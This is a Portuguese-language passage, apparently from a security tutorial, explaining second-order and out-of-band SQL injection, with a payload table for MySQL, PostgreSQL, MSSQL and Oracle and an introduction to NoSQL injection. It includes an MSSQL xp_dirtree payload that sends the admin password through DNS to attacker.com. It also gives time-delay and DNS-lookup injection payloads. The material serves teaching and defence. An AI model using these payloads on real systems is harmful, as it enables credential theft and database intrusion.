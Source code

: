 - **Injeção de SQL de Segunda Ordem**: Este ataque sofisticado ocorre em duas etapas. Primeiro, um invasor envia um *payload* malicioso que é armazenado de forma segura pela aplicação, muitas vezes através de um formulário que usa consultas parametrizadas. A vulnerabilidade reside no fato de que a aplicação mais tarde recupera esses dados armazenados e os utiliza em uma consulta SQL diferente de forma insegura, sem sanitização adequada, porque confia erroneamente nos dados que já estão em seu próprio banco de dados. Por exemplo, um invasor pode se registrar com o nome de usuário `admin'--`. A instrução `INSERT` parametrizada armazena essa *string* literalmente. Mais tarde, quando o invasor usa a função "alterar senha", uma consulta vulnerável como `UPDATE users SET password = '...' WHERE username = '` + stored_username + `' recupera o nome de usuário malicioso, e a consulta se torna `UPDATE users SET password = '...' WHERE username = 'admin'--`, alterando a senha do administrador.
- **Injeção de SQL *Out-of-Band* (OOB)**: Quando não há um canal de retorno de dados discernível (nem mesmo uma resposta booleana ou de tempo), um invasor pode forçar o banco de dados a iniciar uma conexão de rede de saída para um servidor sob seu controle. A técnica mais comum é a exfiltração de DNS. O invasor injeta um comando que faz com que o servidor de banco de dados execute uma busca de DNS para um domínio que ele controla. Os dados a serem exfiltrados são concatenados como um subdomínio. Por exemplo, um *payload* para MSSQL pode usar `xp_dirtree` para solicitar um caminho UNC: `exec master..xp_dirtree '\\(SELECT password FROM users WHERE username='admin').attacker.com\foo'`. O servidor do invasor recebe uma consulta de DNS para `[senha_roubada].attacker.com`, revelando a senha.

**Tabela 2: Sintaxe e *Payloads* de Injeção de SQL em Diferentes SGBDs**

| Característica/Técnica | *Payload* MySQL | *Payload* PostgreSQL | *Payload* MSSQL | *Payload* Oracle |
|-----------------------|----------------|---------------------|----------------|-----------------|
| **Sintaxe de Comentário** | `#` ou `--` (com espaço) | `--` | `--` | `--` |
| **Consulta de Versão** | `SELECT @@version` | `SELECT version()` | `SELECT @@version` | `SELECT banner FROM v$version` |
| **Atraso de Tempo (10s)** | `SELECT SLEEP(10)` | `SELECT pg_sleep(10)` | `WAITFOR DELAY '0:0:10'` | `dbms_pipe.receive_message(('a'),10)` |
| **Concatenação de *String*** | `CONCAT('a','b')` | `'a''b'` | `'a' + 'b'` | `'a''b'` ou `CONCAT('a','b')` |
| **Comando de Busca DNS** | `LOAD_FILE('\\\\...\\a')` | `copy... to program 'nslookup...'` | `exec master..xp_dirtree '\\\\...\\a'` | `UTL_INADDR.get_host_address('...')` |
| **Listagem de Tabelas** | `... FROM information_schema.tables` | `... FROM information_schema.tables` | `... FROM information_schema.tables` | `... FROM all_tables` |

## Seção 3: A Nova Fronteira: Injeção de NoSQL (NoSQLi)

Esta seção abordará a mudança de paradigma de bancos de dados relacionais para NoSQL e a correspondente evolução dos ataques de injeção. O foco será no MongoDB, demonstrando como sua estrutura de consulta flexível e baseada em JSON cria novas superfícies de ataque.

### SQLi vs. NoSQLi: Uma Mudança de Paradigma

A Injeção de NoSQL (NoSQLi) difere da SQLi em sua essência porque não há uma linguagem de consulta padronizada como o SQL. Cada banco de dados NoSQL (MongoDB, Cassandra, Redis, etc.) possui sua própria sintaxe de consulta e modelo de dados. O ataque geralmente explora a forma como a aplicação constrói objetos de consulta, frequentemente em formato JSON ou BSON, a partir da entrada do usuário. As duas principais formas de NoSQLi são:

- **Injeção de Sintaxe**: Ocorre quando um invasor consegue quebrar a sintaxe da consulta, de forma análoga à SQLi, para injetar seu próprio *payload*.
- **Injeção de Operador**: Ocorre quando um invasor abusa de operadores específicos do NoSQL (como `$ne`, `$gt`) dentro de uma estrutura de consulta válida para manipular a lógica da consulta.
